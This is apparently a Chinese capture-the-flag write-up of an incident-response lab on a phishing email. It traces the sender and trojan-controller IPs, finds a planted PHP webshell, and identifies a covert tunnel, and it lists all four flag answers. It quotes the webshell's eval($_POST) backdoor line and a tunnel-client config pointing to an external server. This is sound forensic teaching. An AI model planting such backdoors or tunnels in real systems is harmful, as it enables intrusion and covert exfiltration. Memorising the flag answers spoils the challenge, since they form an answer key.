






# 常见攻击事件分析--钓鱼邮件

## 一、简介

靶机名：网站入侵应急响应

靶机账号/密码：无

难度-初级

‍

# 二、题目

**1、请分析获取黑客发送钓鱼邮件时使用的IP，flag格式： flag{11.22.33.44}
2、请分析获取黑客钓鱼邮件中使用的木马程序的控制端IP，flag格式：flag{11.22.33.44}
3、黑客在被控服务器上创建了webshell，请分析获取webshell的文件名，请使用完整文件格式，flag格式：flag{/var/www/html/shell.php}
4、flag4: 黑客在被控服务器上创建了内网代理隐蔽通信隧道，请分析获取该隧道程序的文件名，请使用完整文件路径，flag格式：flag{/opt/apache2/shell}**

‍

# 三、WriteUp

### 一、前言

**题目链接：**​**[第七章 常见攻击事件分析--钓鱼邮件](https://xj.edisec.net/challenges/52)**

**首先简单了解一下常见攻击事件分析--钓鱼邮件；**

**钓鱼邮件（Phishing Email）是一种常见的网络攻击手段，通过伪装成可信的邮件，诱骗受害者提供敏感信息或执行恶意操作。**

**攻击步骤**

1. **伪造发件人信息**：

    * 攻击者伪装成受害者信任的实体，如银行、在线服务提供商或公司内部邮件，发送电子邮件。
2. **诱饵内容**：

    * 邮件内容通常包含紧急通知、警告或诱惑性的优惠，以引起受害者的注意和紧迫感。
3. **恶意链接或附件**：

    * 邮件中包含的链接会引导受害者到伪造的登录页面，或者附件可能包含恶意软件（如木马、勒索软件等）。
4. **收集敏感信息**：

    * 受害者在伪造页面上输入的登录凭据、信用卡信息等敏感数据会被攻击者收集并利用。
5. **执行恶意操作**：

    * 恶意软件被下载和执行，可能导致系统被感染、数据被盗或计算资源被利用（如进行加密货币挖矿）。

**分析步骤**

1. **识别钓鱼邮件**：

    * 检查邮件头信息（如发件人地址、邮件服务器），识别伪造迹象。
    * 分析邮件内容，寻找不自然的用词、拼写错误、过于紧急的语气。
2. **检测恶意链接和附件**：

    * 使用沙盒环境或反恶意软件工具分析邮件中的链接和附件。
    * 通过URL解析工具查看链接的实际目标，判断是否为钓鱼网站。
3. **监控网络流量**：

    * 分析企业网络流量日志，检测异常流量和可疑的外部连接。
    * 关注连接到恶意IP地址或域名的流量。
4. **取证分析**：

    * 从受害者设备中收集和分析相关日志、文件和内存数据。
    * 使用数字取证工具恢复和分析受害者系统中的活动记录。
5. **用户教育和培训**：

    * 定期对员工进行安全培训，提高他们对钓鱼邮件的警觉性。
    * 通过模拟钓鱼攻击测试员工的响应和防范能力。

**预防措施**

1. **多因素认证**：

    * 实施多因素认证，增加账户安全性。
2. **邮件过滤和防护**：

    * 使用反垃圾邮件和反钓鱼邮件过滤器，阻止可疑邮件。
    * 定期更新邮件防护规则和数据库。
3. **安全意识培训**：

    * 定期对员工进行钓鱼邮件识别和应对培训。
4. **及时更新和修补**：

    * 确保操作系统、应用程序和防病毒软件及时更新和修补。

### 二、参考文章

[【玄机-应急平台】第七章 常见攻击事件分析--钓鱼邮件](https://blog.csdn.net/Aluxian_/article/details/139736449)

[ 常见攻击事件分析--钓鱼邮件](https://www.cnblogs.com/NoCirc1e/p/18165215)

### 三、步骤（解析）

#### 1.1

##### 请分析获取黑客发送钓鱼邮件时使用的IP，flag格式： flag{11.22.33.44}

解题思路

**下载附件进行解压，发现这钓鱼邮件中的文件（，**​ **​`__MACOSX`​**​ **、**​**​`log`​**​ **、**​**​`var`​**​ **、**​**​`钓鱼邮件.eml`​**​ **）来看，这些文件是从一个macOS系统或某种打包的文件中导出的。**

​​

**简单分析一下这些文件；**

1. ​ **​`__MACOSX`​**​:

    * 这个文件夹通常是macOS系统在打包ZIP文件时自动生成的隐藏文件夹，包含文件的元数据。它不是用户直接创建的，而是由macOS文件系统自动生成的。
    * 例如，如果你在macOS上使用Finder打包文件夹成ZIP文件，这个文件夹就会包含在ZIP文件中。
2. ​**​`log`​**​:

    * ​`log`​文件夹通常用于存储日志文件，记录系统或应用程序的运行记录和错误信息。
    * 在钓鱼邮件中，这个文件夹可能用于记录受害者打开邮件或点击链接后的信息。
3. ​**​`var`​**​:

    * ​`var`​文件夹通常用于存储可变数据，如系统日志、临时文件和应用程序数据。
    * 在钓鱼邮件中，这个文件夹可能包含恶意脚本或文件，用于进一步的攻击或数据收集。
4. ​**​`钓鱼邮件.eml`​**​:

    * ​`.eml`​文件是邮件消息文件格式，包含完整的电子邮件内容，包括邮件头和邮件正文。
    * 这个文件可能是钓鱼邮件的原始邮件文件，用于存档或进一步分发。

**猜测使用的打包工具；**

1. **macOS Finder**:

    * macOS自带的文件管理器。用户在Finder中选择文件或文件夹，然后通过右键菜单选择“压缩”选项，生成的ZIP文件会包含`__MACOSX`​文件夹。
2. **Terminal命令行工具**:

    * 使用macOS的命令行工具，比如`zip`​命令。虽然这种方法通常不会自动生成`__MACOSX`​文件夹，但如果用户之前在Finder中压缩过文件并解压过，可能会在文件夹中保留这些隐藏文件。
3. **The Unarchiver**:

    * 一个流行的macOS解压工具，也可以用于创建压缩文件。
4. **Keka**:

    * 一款开源的macOS文件压缩和解压工具，支持多种压缩格式。
5. **BetterZip**:

    * 一个功能强大的macOS压缩工具，提供对文件的预览、编辑和加密等功能。

**这些工具都是macOS上非常常见的用于压缩和解压文件的工具，用户使用它们生成的压缩文件会包含**​ **​`__MACOSX`​**​**文件夹。**

**题目让我们提交黑客发邮件使用的IP，那肯定就是分析文件“钓鱼邮件.eml”，右键记事本打开；**

得到；

​​

简单分析一下；

**通过分析这封钓鱼邮件的邮件头，我们可以确定121.204.224.15是发送钓鱼邮件的黑客的IP地址。**

**关键字段解释**

* **Received**：

  * 这个字段记录了邮件在传输过程中经过的每一个邮件服务器的IP地址和时间戳，按传输顺序列出。

**邮件头解析**

以下是邮件头中的几个关键字段的逐步解析：

	Received:from mail.ffcs.cn (unknown[61.154.14.126])  
	    by rmmx-cloud_rmmx_9_04-12063 (RichMail) with SMTP id 2f1f61512e47e91-1c7b5;  
	    Mon, 27 Sep 2021 10:36:55 +0800 (CST)

* **这条记录表示邮件从IP地址**​**​`61.154.14.126`​**​**的服务器**​**​`mail.ffcs.cn`​**​**传输到**​**​`rmmx-cloud_rmmx_9_04-12063`​**​**服务器。时间为**​**​`2021年9月27日10:36:55（CST）`​** ​ **。**

  Received: (qmail 191289 invoked by uid 0); 27 Sep 2021 02:36:54 -0000  
  Received: from 127.0.0.1 by mail.ffcs.cn (envelope-from <ffnic@ffcs.cn>, uid 0) with qmail-scanner-1.24  
  (clamdscan: 0.98.4/26074.
  Clear:RC:1(127.0.0.1):.  
  Processed in 0.248744 secs); 27 Sep 2021 02:36:54 -0000
* **这条记录表示邮件从本地地址**​**​`127.0.0.1`​**​**通过**​**​`qmail-scanner`​**​**传输到**​**​`mail.ffcs.cn`​**​**服务器。时间为**​**​`2021年9月27日02:36:54（UTC）`​** ​ **。**

  Received: from unknown (HELO localhost) (ffnic@[127.0.0.1])  
  (envelope-sender <ffnic@ffcs.cn>)  
  by 0 (magicmail) with SMTP  
  for <139xxxx7085@139.com>; 27 Sep 2021 02:36:54 -0000
* **这条记录表示邮件从本地地址**​**​`127.0.0.1`​**​**通过**​**​`magicmail`​**​**传输，邮件发件人为**​**​`ffnic@ffcs.cn`​**​ **。时间为**​**​`2021年9月27日02:36:54（UTC）`​** ​ **。**

  X-Mailer: MagicMail WebMail (from: 121.204.224.15)
* **这一行表示邮件是通过IP地址**​**​`121.204.224.15`​**​**使用**​**​`MagicMail WebMail`​**​**发送的。这通常是发送邮件的客户端的IP地址，表示邮件是在该IP地址上通过**​**​`MagicMail`​**​**发送的。**

**确认黑客IP**

通过上述解析，可以看到：

* **关键行**：`X-Mailer: MagicMail WebMail (from: 121.204.224.15)`​

  * 这行信息表明邮件是通过IP地址`121.204.224.15`​发送的。该IP地址是发件人设备的IP地址，不是邮件服务器的中继地址。因此可以确定`121.204.224.15`​是发送钓鱼邮件的黑客的IP地址。

**总结；**

> ​`121.204.224.15`​作为发件人设备的IP地址，是钓鱼邮件的来源IP，可以确定为黑客的IP地址。这是通过邮件头中的`X-Mailer`​字段确认的，该字段通常记录了邮件发送时的客户端IP信息。

所以；

	flag{121.204.224.15}

###### 拓展1.1

**简述一下邮件传输；**

1. **邮件传输过程**：

    * 在邮件从发件人到收件人的传输过程中，邮件会经过多个邮件服务器。
2. **&quot;Received&quot;部分**：

    * 每个经过的邮件服务器都会在邮件头部的 "Received" 部分添加一条记录。
    * 这些记录是按邮件的传输顺序逐步追加的，最后一个 "Received" 部分代表了最早的传输记录。
3. **原始发件者的IP地址**：

    * 最后一个 "Received" 部分所包含的 IP 地址通常代表了原始发件者的 IP 地址。
    * 这是因为该IP地址是在邮件被其他服务器转发之前，由真正的发件者的邮件服务器添加的。
4. **准确查找发件IP**：

    * 查看最后一个 "Received" 部分的IP地址可以更准确地找到邮件的真实发件IP地址。
    * 前面的 "Received" 部分显示的是其他邮件服务器的IP地址，不是最初的发件IP。

**总结：**

> 在分析邮件的来源时，邮件头部的 "Received" 部分是关键。邮件在传输过程中，每经过一个邮件服务器，这部分都会新增一条记录。最早的一条记录（即最后一个 "Received" 部分）通常包含了原始发件者的IP地址，因此通过查看这条记录，可以更准确地找到邮件的真实发件IP地址。

#### 1.2

##### 请分析获取黑客钓鱼邮件中使用的木马程序的控制端IP，flag格式：flag{11.22.33.44}

解题思路

**题目让我们提交黑客使用木马程序控制端的IP，那这里我们直接将文件“钓鱼邮件.eml”丢进安恒进行分析，那有的人可能就有疑问了，为什么这题把“钓鱼邮件.eml”丢进安恒云沙箱进行查杀就行了？**

> 简单来说选择“钓鱼邮件.eml”文件进行查杀而不是选择其他文件的原因在于该文件本身包含了完整的钓鱼邮件信息，包括邮件的内容、附件、嵌入的链接等。

具体原因；

* **完整邮件内容**：

  * “钓鱼邮件.eml”文件包含了邮件的完整内容，包括文本、HTML格式、嵌入的图片和链接等。
  * 通过分析整个邮件，可以检测出隐藏在邮件内容中的恶意代码、钓鱼链接或恶意附件。
* **附件和嵌入内容**：

  * 钓鱼邮件通常会包含恶意附件（如PDF、Word文档、压缩文件）或嵌入的恶意链接。
  * 分析完整的.eml文件可以确保这些附件和嵌入内容都被检测到，避免遗漏任何潜在威胁。
* **邮件头信息**：

  * .eml文件包含完整的邮件头信息（如发件人、收件人、邮件服务器路径、IP地址等），这对溯源和分析邮件的发送路径至关重要。
  * 分析邮件头信息可以帮助识别钓鱼邮件的来源和可能的中转服务器。
* **行为分析**：

  * 在沙盒中运行.eml文件可以模拟用户打开邮件的行为，检测邮件中的恶意行为（如自动下载恶意软件、重定向到钓鱼网站等）。
  * 通过这种模拟行为，可以捕获邮件中的动态恶意活动。
* **综合分析**：

  * 选择.eml文件进行分析可以进行全面的综合分析，包括静态分析和动态分析。
  * 静态分析可以检测邮件中的恶意代码和链接，动态分析可以检测邮件在运行时的行为。

**当然恶意文件丢进“安恒云沙箱”进行分析的好处远不止这一些，更多的还需要师傅们自己去开发咯；**

[在线安恒云沙箱](https://sandbox.dbappsecurity.com.cn/)

得到；

​​

**所以最后也是在“威胁情报2”分析出了黑客使用木马的控制端IP；**

所以；

	flag{107.16.111.57}

###### 拓展1.2

举个例子；

**假设一封钓鱼邮件包含了以下元素：**

* 文本内容引导用户点击链接。
* 一个嵌入的恶意脚本。
* 附件中的恶意软件（如.exe文件）。
* 发件人的伪装信息和中转服务器路径。

**通过分析.eml文件，安全团队可以：**

> 1. 检查邮件文本内容和嵌入的恶意脚本。
> 2. 提取并分析附件中的恶意软件。
> 3. 溯源邮件的发送路径，识别发件人的伪装信息和可能的中转服务器。
> 4. 检测邮件中包含的所有链接是否指向钓鱼网站或恶意服务器。

#### 1.3

##### 黑客在被控服务器上创建了webshell，请分析获取webshell的文件名，请使用完整文件格式，flag格式：flag{/var/www/html/shell.php}

解题思路

**题目简而言之就是让我们找出黑客写入的webshell，这里相信看过我文章的师傅肯定就已经知道该怎么做了（看那么多我的文章，要还再不会查webshell都对不起我），那我们直接从“/var/www/html”开始使用“D盾”进行查杀webshell吧；**

**那新来的师傅有点不明白为什么查找webshell时，通常会使用D盾等安全工具从**​ **​`/var/www/html/`​** ​**目录开始分析？**

简单说明一下；

* **常见Web服务器根目录**：

  * ​`var/www/html/`​ 是Apache和Nginx等常见Web服务器的默认根目录。
  * 所有的Web应用文件通常都会放置在这个目录下，包括PHP、HTML、JavaScript等文件。
* **Webshell的存放位置**：

  * 攻击者通常会将webshell放在Web服务器的根目录或其子目录中，以便通过HTTP请求直接访问和执行这些恶意脚本。
  * ​`var/www/html/`​ 目录是Web服务器公开访问的文件目录，因此放置在这个目录中的文件更容易被攻击者利用来执行恶意操作。
* **Webshell特征检测**：

  * D盾等工具可以扫描目录中的文件，查找包含恶意代码的文件。
  * 这些工具会检查文件内容和名称特征，以识别潜在的webshell。例如，webshell通常包含执行系统命令的代码（如`eval`​、`system`​、`exec`​等）。
* **防止webshell隐匿**：

  * 攻击者可能会尝试将webshell伪装成普通的Web应用文件或嵌入到合法文件中。
  * 从根目录开始扫描，可以确保所有可能被隐藏的webshell都能被发现。

**总结**

**从**​ **​`/var/www/html/`​** ​**目录开始分析是因为这是Web服务器的默认根目录，攻击者通常会将webshell放在这个位置或其子目录中。**

使用“D盾扫描”得到；

​​

**也是很快发现了shell，那我们跟进所在的目录，右键记事本打开进行分析；**

得到；

​​

**这就是典型的Webshell的特征，简单分析一下；**

1. **隐藏的功能**：

    * 使用了`error_reporting(0);`​来隐藏错误信息，避免暴露Webshell的存在。
    * 使用`session_start();`​开启会话，可能用于会话管理。
2. **短标签检查**：

    * 代码检查PHP的`short_open_tag`​设置，如果未开启，会提示用户修改PHP配置。
    * 这可能是为了确保Webshell在目标环境中能够正常运行。
3. **权限检查**：

    * ​`CheckPurview()`​函数用于权限检查，确保当前用户有执行特定操作的权限。
    * 这是为了限制未授权用户的访问，但实际上在Webshell中可能是伪装。
4. **用户登录类**​**​`userLogin`​**​：

    * 包含处理用户登录和会话管理的代码。
    * 使用了会话变量来保存用户信息，并在登录时检查用户名和密码。
5. **eval函数**：

    * 代码中包含`eval($_POST['3q89xozo']);`​，这是一个典型的Webshell特征，允许攻击者通过POST请求执行任意PHP代码。
    * 这行代码是一个后门，攻击者可以通过发送特定请求来执行恶意代码。
6. **数据库连接**：

    * 代码包含了连接数据库的部分，使用数据库操作来执行某些功能。
    * 这可能用于提取敏感信息或进行进一步的数据库操作。
7. **文件操作**：

    * 使用`fopen`​、`fwrite`​、`fclose`​函数操作文件，这里是用于保存会话状态。
    * 文件操作是Webshell常见功能，允许攻击者修改或创建文件。

**主要特征总结：**

* **隐藏和伪装**：使用`error_reporting(0);`​隐藏错误信息。
* **动态代码执行**：使用`eval`​函数执行通过POST请求传递的代码。
* **会话管理**：利用会话变量保存用户信息和权限检查。
* **文件和数据库操作**：包含文件操作和数据库连接，可能用于数据提取或进一步攻击。

**这些特征显示了Webshell常见的功能和伪装方式，通过这些方式，黑客可以在受感染的服务器上执行任意代码和操作。**

**题目让我们提交文件的具体路径；**

所以；

	flag{/var/www/html/admin/ebak/ReData.php}

#### 1.4

##### flag4: 黑客在被控服务器上创建了内网代理隐蔽通信隧道，请分析获取该隧道程序的文件名，请使用完整文件路径，flag格式：flag{/opt/apache2/shell}

解题思路

**题目让我们提交黑客创建的隧道程序的完整路径，首先简单了解一下什么是内网代理隐蔽通信隧道？**

> 内网代理隐蔽通信隧道（Internal Network Proxy Covert Communication Tunnel）是一种技术，用于在内部网络环境中建立隐蔽的通信通道，绕过防火墙和监控，确保数据在内部网络与外部网络之间安全、隐蔽地传输。这种技术通常用于内网渗透测试、数据泄露、规避监控等场景。

> 同时内网代理隐蔽通信隧道是一种利用代理服务器或代理软件，在内网和外网之间建立一个加密、隐藏的数据传输通道。其主要目的是隐藏通信内容和通信双方的身份，绕过内网的安全策略和防火墙限制，从而实现隐蔽通信。

**基本原理**

1. **代理服务器**：

    * 在内网中部署一个代理服务器或代理软件，接收内网客户端的请求。
    * 代理服务器将请求转发到外网目标服务器，获取响应后再返回给内网客户端。
2. **加密通信**：

    * 使用加密协议（如TLS/SSL）对数据进行加密，确保通信内容在传输过程中不被截获和解读。
3. **隧道协议**：

    * 使用隧道协议（如SSH隧道、VPN、SOCKS代理）建立安全的通信通道，将数据通过隧道传输，从而隐藏实际的通信内容和目的地址。
4. **隐蔽性**：

    * 通过伪装数据流量，使用常见的通信协议（如HTTP、HTTPS）进行传输，避免被内网防火墙和IDS/IPS（入侵检测系统/入侵防御系统）识别和阻断。

**常见的技术和工具**

1. **SSH隧道**：

    * 利用SSH协议，在本地和远程服务器之间建立加密隧道，转发流量。
    * 示例工具：`ssh -L`​（本地端口转发）、`ssh -D`​（动态端口转发）
2. **VPN**：

    * 使用虚拟专用网络（VPN）技术，在内网和外网之间建立加密通信通道。
    * 示例工具：OpenVPN、IPsec
3. **SOCKS代理**：

    * 使用SOCKS协议，通过代理服务器转发流量，隐藏客户端的实际IP地址。
    * 示例工具：Dante、SOCKS5代理
4. **HTTP/HTTPS代理**：

    * 通过HTTP或HTTPS协议进行代理通信，将数据封装在常见的Web流量中传输。
    * 示例工具：Squid、Nginx反向代理

**主要的用途**

1. **内网渗透测试**：

    * 渗透测试人员在内网环境中建立隐蔽通信通道，绕过防火墙和监控，进行进一步的渗透测试操作。
2. **数据泄露**：

    * 攻击者利用隐蔽通信隧道将敏感数据从内网传输到外网，规避数据泄露检测机制。
3. **规避监控**：

    * 在受监控的网络环境中，利用隐蔽通信隧道绕过网络监控和审计系统，进行隐蔽的通信和数据传输。

**简而言之；**

**内网代理隐蔽通信隧道是一种高级隐蔽技术，通过加密和代理手段，在内网和外网之间建立安全、隐蔽的通信通道，绕过防火墙和监控，实现隐蔽的数据传输和通信。**

**那这里我们就可以去临时目录查看一下配置文件进行分析，在这里也就是“\var\tmp\proc\”目录下的文件“my.conf”；**

具体原因；

* **恶意软件或黑客活动**:

  * 黑客或恶意软件在服务器上创建了或使用了 \var\tmp\proc\ 目录来存放他们的配置文件、脚本或其他资源，以便执行某些恶意操作。
  * \var\tmp\ 是一个常见的临时目录，**通常被用来存放临时文件，因此在这个目录下进行恶意活动较容易隐藏。**
* **进程创建的临时文件**:

  * 一些应用程序或服务在运行时可能会在临时目录中创建和修改配置文件。
  * \var\tmp\proc\ 可能是某个进程或服务在运行时用来存储临时配置文件的目录。
* **系统配置或开发环境**:

  * 在某些开发或测试环境中，开发人员可能会在 \var\tmp\proc\ 目录下创建和修改配置文件以便进行测试。
  * **这可能是一个惯例路径，专门用于某些应用程序的临时配置存储。**

跟进分析，右键记事本打开；

得到；

​​

简单分析一下；

	[common]  
	server_addr=178.102.115.17:52329  
	conn_type=tcp  
	vkey=6bHW7m4SMvy  
	auto_reconnection=true  
	max_conn=1000  
	flow_limit=1000  
	rate_limit=1000

	# username and password of http and socks5 proxy  
	# basic_username=11  
	# basic_password=3  
	# web_username=user  
	# web_password=1234  
	crypt=true  
	compress=true

首先可以确定的就是这个文件就是配置文件，也就是黑客创建的内网代理隐蔽通信隧道；

**配置项分析**

* ​`[common]`​:

  * 这个部分表明配置文件的通用设置。
* ​`server_addr=178.102.115.17:52329`​:

  * 服务器地址和端口号。这个配置指向外部服务器（IP 地址 `178.102.115.17`​，端口 `52329`​），可能是黑客用来控制或接管服务器的地址。
* ​`conn_type=tcp`​:

  * 连接类型为 TCP。
* ​`vkey=6bHW7m4SMvy`​:

  * 验证密钥或访问密钥，用于验证连接请求。
* ​`auto_reconnection=true`​:

  * 自动重连设置为 `true`​，表示断线后会自动重连。
* ​`max_conn=1000`​:

  * 最大连接数为 `1000`​，表示最多可以建立 1000 个连接。
* ​`flow_limit=1000`​ 和 `rate_limit=1000`​:

  * 流量限制和速率限制，均为 `1000`​。这些限制可能用于控制带宽使用。
* ​`crypt=true`​ 和 `compress=true`​:

  * 数据加密和压缩设置为 `true`​，表示传输的数据会被加密和压缩，以提高安全性和效率。
* ​`# username and password of http and socks5 proxy`​:

  * 注释部分，提到 HTTP 和 SOCKS5 代理的用户名和密码配置（已被注释掉）。

**内网代理隧道**；

> 这些配置非常典型地用于创建一个内网代理隧道，允许内网机器通过外部服务器进行通信。外部服务器在这里扮演中介角色，将内网机器的数据传输到目标机器，并返回响应。

**总结**

> 这个配置文件 `my.conf`​ 配置了一个代理隧道工具，用于内网机器通过外部服务器进行隐蔽通信。其设置表明了自动重连、数据加密和压缩等特性，这些都是为了确保通信的可靠性和隐蔽性。

**其实还有一点就是，看这个配置文件与代理配置文件类似，可以猜测这个mysql为代理文件；**

题目让我们提交完整的文件路径；

**完整路径：/var/tmp/proc/mysql**

所以；

	flag{/var/tmp/proc/mysql}

‍

‍

# 四、flag

**1、请分析获取黑客发送钓鱼邮件时使用的IP，flag格式： flag{11.22.33.44}**

flag{121.204.224.15}

‍

**2、请分析获取黑客钓鱼邮件中使用的木马程序的控制端IP，flag格式：flag{11.22.33.44}**

flag{107.16.111.57}

‍

**3、黑客在被控服务器上创建了webshell，请分析获取webshell的文件名，请使用完整文件格式，flag格式：flag{/var/www/html/shell.php}**

flag{/var/www/html/admin/ebak/ReData.php}

‍

**4、flag4: 黑客在被控服务器上创建了内网代理隐蔽通信隧道，请分析获取该隧道程序的文件名，请使用完整文件路径，flag格式：flag{/opt/apache2/shell}**

flag{/var/tmp/proc/mysql}

‍
